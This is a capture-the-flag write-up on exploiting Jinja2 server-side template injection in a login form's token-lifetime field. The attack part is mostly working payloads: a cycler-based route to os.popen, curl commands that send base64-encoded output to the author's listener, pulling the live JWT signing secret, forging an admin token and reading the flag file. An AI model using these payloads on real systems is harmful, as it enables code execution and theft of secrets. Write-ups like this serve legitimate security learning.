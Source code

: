 # Secure Rendered JWT – Writeup
![Challenge](./pictures/aa.png)


- Web page with a login form, username and “how many minutes the token is valid.”
- Tokens were symmetric HS256.
- Timezone Europe, Oslo, irrelevant to the exploit, useful while checking `exp`.

---

I started by treating the minutes box like a normal integer input, and watched how `exp` moved.

- `10` produced a token valid for 10 minutes.
- `1` produced a token valid for 1 minute.
- Any number over 10 was clamped to 10.
- I tried words, since the UI hinted Norwegian numbers:
  - `en` without quotes consistently ended up as 10, likely a default branch.
  - `'en'` with quotes was understood as 1.
  - `'to'` as 2, `'tre'` as 3.
  - Numbered text like `'femtifem'` fell back to 10.

This told me something was rendering, not just parsing integers. The quoted words working was the first sign that a template was involved.

---

I was not yet sure where this was going, I paid 75 points for the hint.  
The hint said: **“the new cool way to convert stuff into integers was using Jinja2.”**

I read a couple of Jinja2 SSTI articles. The standard probe is `{{7*7}}`.  
I tried a few basics in the minutes field:

`{{7*7}}`
`{{2*3}}`
`{{"a"*5}}`

Every one of these crashed the page with a 500 error. That confirmed templating, but also told me that whatever wrapped my input expected it to evaluate into something that could be converted to a number, or a known word.

---

Since quoted Norwegian numbers were mapped to minutes, I tried a Jinja inline if that always returned one of those words, never raw numbers. This keeps the app happy and gives me a yes or no channel:

```
'en' if <condition> else 'to'
```
If true, the token had 1 minute on the expiration, if false, 2 minutes. That meant I could test arbitrary conditions without crashing.
The first big reveal:

```
'en' if cycler.__init__.__globals__.__builtins__.__import__ else 'to'
```
Why this, and what it does:
cycler is a benign Jinja helper that is always in scope.

From cycler.__init__ you can access its __globals__.

Inside globals, you can grab __builtins__.

Then you can reach __import__.

It returned 1, so the template could reach Python builtins.

Next, import os (the os module gives direct access to the filesystem, environment variables, and command execution):

```
'en' if cycler.__init__.__globals__.__builtins__.__import__('os') else 'to'
```
This also returned 1, so I had the os module.
I tried environment, files, and commands, always wrapped in the oracle:

Check env is accessible
```
'en' if cycler.__init__.__globals__.__builtins__.__import__('os').environ else 'to'
```
Check a known file name in the working dir
```
'en' if 'requirements.txt' in cycler.__init__.__globals__.__builtins__.__import__('os').listdir('.') else 'to'
```
Check for command execution
```
'en' if cycler.__init__.__globals__.__builtins__.__import__('os').popen else 'to'
```
These all returned 1, so I had everything I needed.
RCE and Exfil.

Dumping big strings into the minutes field would crash, so the plan was to run a command server side and send the result over HTTP to my own listener.
On my Mac, I used netcat.

To avoid spaces, quotes, and newlines breaking the request path, I base64-encoded on the server before curling home. Example pattern:
```
bash -c 'echo "hello" | base64 | xargs -I{} curl http://ip:port/{}'
```

Inside the minute field, that becomes:
```
'en' if cycler.__init__.__globals__.__builtins__.__import__('os').popen("bash -c 'echo hello | base64 | xargs -I{} curl ip:port'") else 'to'
```

The listener saw GET /aGVsbG8K HTTP/1.1, I decoded locally with base64 -d.

Here I fell into a rabbit hole.

The challenge name and the UI suggested JWTs mattered. I checked how tokens were created and verified by grepping the source through my oracle, for example:
```
'en' if cycler.__init__.__globals__.__builtins__.__import__('os').popen("grep -R 'jwt.decode' . | base64 | xargs -I{} curl http://ip:port/{}") else 'to'
```
From there and from exfiltrated code chunks, I learned:
```
JWT_SECRET = os.urandom(32).hex()
jwt.encode(payload, JWT_SECRET, algorithm="HS256")
```
So the signing key was a fresh 64 hex string on each server start, not a static value in the repo, which explained why forged tokens could suddenly stop working after a restart.
I proved I could pull the live secret over the same exfil route:
```
'en' if cycler.__init__.__globals__.__builtins__.__import__('os').popen("bash -c 'python3 -c \"import app; print(app.JWT_SECRET)\" | base64 | xargs -I{} curl http://ip:port/{}'") else 'to'
```
The listener received a base64 blob, which decoded to the current 64 hex key.
I minted an admin token with PyJWT:
```
import jwt, time
secret = "6318ccead28b8819fe24e43b5d971613dee6b7ae83ee414df99167f19"  # example pulled live
payload = {"username": "admin", "admin": True, "exp": int(time.time()) + 3600}
token = jwt.encode(payload, secret, algorithm="HS256")
print(token)
```

Replacing the cookie crashed with 500. When it crashed, the box had restarted and the secret had rotated, so the token was now invalid. Essentially I had gotten something that I could've just done with jwt.io, so I figured this wasn't the intended way. 

I tried listing the files that exist to see if there was a different path.

I used:
```
'en' if cycler.__init__.__globals__.__builtins__.__import__('os').popen("ls -R . | base64 | xargs -I{} curl http://ip:port/{}") else 'to'
```
Decoding the output gave a short tree, with files like:
```
Dockerfile
app.py
solve.py
flag.txt
```
...
Well there it was. 

Same recipe:
 ```
'en' if cycler.__init__.__globals__.__builtins__.__import__('os').popen("base64 flag.txt | xargs -I{} curl http://ip:port/{}") else 'to'
 ```
On my listener I received and decoded it.

The result was the flag:
```
CTFkom{2856b8be333804a318817f1ee4e6dec8}
```